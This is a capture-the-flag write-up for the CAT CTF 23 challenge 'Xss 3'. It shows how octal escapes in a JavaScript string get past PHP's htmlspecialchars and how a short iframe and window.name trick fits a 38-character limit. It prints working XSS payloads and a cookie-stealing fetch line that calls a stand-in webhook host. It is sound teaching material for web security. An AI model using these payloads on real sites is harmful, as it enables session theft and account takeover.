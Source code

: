![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/16904042-148f-476b-b60a-582f5d3d04d4)### Hello everyone, this is my writeup for my web challenge " Xss 3 " that had no solves in CAT CTF 23 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/639ccff8-e4fb-40c3-a5ce-dbeec301f48b)

### When we open the link you will find "Enter your name " and after you send it as /?name=ghazy you will get this : 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/408207b2-30aa-4499-98bc-01a9caaa4e6a)

### Since we can clearly see our input reflected in the page so, let's try a basic payload like 
`<img src=x onerror=alert() >`  

### And we will got our input as it 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/eafb90e6-0f92-48fe-89fd-4866c4cd2130)

### Seems filtered right ? so, let's open the html source to see what happened to our payload in the reflection 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/a4d89393-7de3-4945-ad7e-1aa048ebd063)

### If u tried to drop some error by sending `name` parameter as an array you will get this error 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/a68e2425-a3e9-4efb-b1f3-ac8ea2e142b3)

### So, it's become clear now why our payload is filtered !! because our input is being passed to htmlspecialchars php function

> This function filters the html special chars like : [< , > , ' , " , &] in it's default configuration.

### So, this function is safe from bypassing ! 

### But after some hours since no one solved it, i released a hint .

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/2eee0214-63aa-4c78-8f20-b6f9ba3c1000)

### As we see in the response our input is being reflected on a js variable ! 
### So, let's see how we can use it to bypass htmlspecialchars

### If you opened your browser console and tried this :

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/9b448b0f-fb3a-44ff-8d8e-148c64919373)

### As you can see we can write a string by hex escaping using js like any programming / scripting languages ! 

### And since our input will be reflected at the js variable and the js code will print it in the page So, it should work !

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/3dc68b74-15b7-49e3-aad6-2c40bd59d4dd)


### let's try to test it in our challenge

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/238c6305-6ee2-482f-885b-5cfb713a7ffa)

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/7f5c5742-f510-48cb-9f21-8d37717a4527)

### As you can see both of them are filtered !! 

### Seems like the developer read about them in documents and filtered them and that what makes it a real life case : ) 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/82c823ca-7982-4ab5-9b34-12fd489b1db8)


### Then what about using an old escaping that has been deprecated from the js docs : D 

### Yup it's called Octal escpaing. 

> We can escape octals in strings by just using `\`

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/7c9457b5-1dca-4565-a02f-77a52b34b135)


### TBH, i got it while i was debugging my challenge i wasn't know it before : D

### I wrote a simple for loop to print all chars to figure our what's this escaping and after that i knew it's octal : ) 

### So, let's try to escape our html special chars like : [<,>]

> Our Payload : \74img src=x onerror=alert()\76

### And bingoooo, we got our xss !

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/dd303692-266a-43a4-99d7-afa0e85adb48)


### But the problem is we had only 38 chars as a length limit ! So, we can't write a pyload like this to steal the admin cookies:

```javascript

<Script>fetch('http://webhook/?c='+document.cookie)</script>
```

### It's more than 38 chars for sure ! 

### There are many ways to bypass the length limit like : window.open or 13.rs domain : D

### We will use window.open

> In js we can open a new window and control some variables like it's name !

### What about trying to eval our window.name that we will control !

### Like this 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/5b87e6fb-ef68-49e0-8859-f177af611269)


### Since our payload length passed 40 chars so it will not work also : ( 

### So, we need to do it in a smart way : D , like eval without using eval 

### If anyone searched about tiny xss payloads he will see this 

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/d78bcb57-4e3d-4621-bff0-43fef076a3b4)

`<iframe/onload=src=top.name>` 

> This payload will refer the iframe src to be the top window name : ) and since we can get xss using iframe src from this payload

```javascript

<iframe src=javascript:alert()>
```

### So, let's exploit this is our local to get alert : )

![image](https://github.com/abdoghazy2015/CTF-Write-Ups/assets/64314534/fefb4571-539f-4c1b-9d67-fb0158bba780)

### شب
### شب
